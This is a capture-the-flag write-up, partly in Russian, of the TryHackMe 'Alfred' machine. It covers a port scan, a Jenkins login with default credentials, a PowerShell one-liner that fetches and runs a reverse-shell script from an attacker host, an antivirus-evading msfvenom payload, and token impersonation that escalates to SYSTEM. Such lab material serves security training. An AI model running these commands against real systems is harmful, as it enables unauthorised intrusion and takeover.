 # TryHackMe-Alfred


## Rustscan

```bash                                                                                                                      
PORT     STATE SERVICE    REASON          VERSION   
80/tcp   open  http       syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods:                                                    
|   Supported Methods: OPTIONS TRACE GET HEAD POST                        
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5      
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  tcpwrapped syn-ack ttl 127  
8080/tcp open  http       syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT        
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1     
| http-robots.txt: 1 disallowed entry                                     
|_/                                                                       
|_http-server-header: Jetty(9.4.z-SNAPSHOT)                               
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows                  
```

## PORT 80 (HTTP)

<img src="https://imgur.com/OzQMPUD.png"/>

Здесь мы не видим ничего интересного, поэтому давайте перейдем к другому http-порту

## PORT 8080 (HTTP)

<img src="https://imgur.com/aXHhYWT.png"/>

Мы видим портал входа в систему jenkins, поэтому давайте попробуем использовать учетные данные по умолчанию

`admin:password`

<img src="https://imgur.com/hrO4m40.png"/>

И это не сработало, давайте попробуем admin:admin

<img src="https://imgur.com/aFModUR.png"/>


Это сработало там, где мы находимся, теперь нам нужно найти, где мы можем выполнять команды, чтобы получить обратную оболочку на целевой машине

Наведите курсор мыши на project, и вы увидите выпадающее меню

 <img src="https://i.imgur.com/15CMp1p.png"/>
 
У Вас будут такие варианты, как "Changes", "Workspace", "Build Now", "Delete Project"," Configure" и "Rename". Выберем `Configure`:

<img src="https://imgur.com/msvm69Y.png"/>

Переключимся на `Build Environment Tab`:

<img src="https://i.imgur.com/yUPIbcb.png"/>

Здесь Вы можете видеть, что есть команда, написанная как  whoami, так что давайте нажмем "Применить" и сохранимся:

<img src="https://i.imgur.com/eXEBFF6.png"/>

Нажмем на `#2`, затем на `Console Output`

<img src="https://i.imgur.com/H0Bx0xH.png"/>

<img src="https://imgur.com/0S5GrCG.png"/>

И Вы можете видеть, какую бы команду мы там ни вводили, она покажет результат, так что теперь все, что мы можем сделать, это разместить сценарий обратной оболочки powershell, загрузить его с помощью powershell и выполнить функцию в сценарии, чтобы получить оболочку:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

Start your python3 http server

<img src="https://imgur.com/Ffh7FPk.png"/>

And our command will look like this , start a netcat listener

<img src="https://imgur.com/L7kRLea.png"/>

<img src="https://imgur.com/GGcjVVU.png"/>

Now click on `Build Now` and that job will run and you'll get a shell

<img src="https://imgur.com/2LThZZr.png"/>

Generate a msfvenom payload with encoders to by pass AV 

Host it on your local machine and download it by repeating the same method

<img src="https://imgur.com/2px77nI.png"/>

Set up your metasploit listener

<img src="https://imgur.com/IKY1jka.png"/>

<img src="https://imgur.com/G6SR5wL.png"/>

<img src="https://i.imgur.com/uhZl5vx.png"/>

Execute the payload and you'll see a meterpreter session will be popped

<img src="https://i.imgur.com/YF8AsSf.png"/>

Running the command `getprivs` we can see what privileges we have on the machine

<img src="https://i.imgur.com/zaqoz9K.png"/>

Here we can escalate our privleges through `SeImpersonatePrivilege`

Run the command `load icognito` through this module we can impersonate tokens

<img src="https://imgur.com/IbKIzYL.png"/>

<img src="https://imgur.com/macZDV5.png"/>

<img src="https://i.imgur.com/enPc6EW.png"/>

<img src="https://imgur.com/iE8Xsw7.png"/>

<img src="https://imgur.com/Ivy4Yaa.png"/>

Now even though we have SYSTEM on the machine but still we won't be able to access system files as it uses the primary token of the process and not the impersonated token so we need to migrate to a process running as SYSTEM which is `services.exe`

<img src="https://i.imgur.com/ltPg2LG.png"/>

<img src="https://imgur.com/3P3tLr5.png"/>

<img src="https://imgur.com/h1cTVks.png"/>
